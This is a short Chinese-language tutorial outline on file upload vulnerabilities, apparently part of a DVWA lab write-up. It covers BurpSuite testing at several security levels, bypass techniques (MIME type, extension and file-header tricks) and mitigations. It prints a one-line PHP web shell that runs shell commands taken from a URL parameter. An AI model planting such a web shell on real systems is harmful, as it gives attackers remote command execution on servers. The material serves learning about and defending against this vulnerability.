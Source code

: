 

# 文件上传漏洞

* 文件上传漏洞
* 测试文件上传漏洞
    * 正常模式
    * 测试 dvwa Low 安全级别
        * 测试漏洞
        * 使用 BurpSuite 进行抓包
    * 测试 dvwa Medium 安全级别
        * 测试漏洞
        * 使用 BurpSui
    * 测试 dvwa High 安全级别
        * 测试漏洞
        * 使用 BurpSuite 进行抓包
* 高安全性解决办法
    * 解决办法
    * 进行测试攻击
* 多方面的解决办法

## 文件上传漏洞
* php 代码
``` 
<?php echo shell_exec($_GET['cmd']);?>

```
* 直接上传 webshell
* 修改文件类型上传 webshell
* 修改扩展名上传 webshell
* 文件头绕过过滤文件上传 webshell
* 删除目录执行权限增加安全性


## 测试文件上传漏洞

